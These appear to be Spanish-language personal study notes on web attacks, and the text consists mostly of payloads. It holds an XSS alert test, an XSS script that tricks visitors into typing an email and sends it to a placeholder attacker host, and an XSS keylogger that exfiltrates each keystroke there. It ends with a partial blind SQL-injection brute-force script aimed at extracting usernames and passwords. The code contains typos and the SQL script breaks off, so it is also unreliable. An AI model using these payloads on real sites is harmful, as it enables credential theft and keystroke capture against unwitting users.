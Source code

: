 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

xss
```python
<script>alert("XSS")</script>
```
xss
```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

xss keylogger
```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e weindow.event;
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```

```python
 #!/usr/bin/python3
import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
Characters = string.printable

def makeSQLI():

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando progreso de fuerza bruta")

	time.sleep(2)

	p2 = log.progress("Datos extraidos")

	extracted_info = ""

	for position in range(1, 200)
		for character in range(33, 126):
			sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password)from information_schema.schem)))))"
```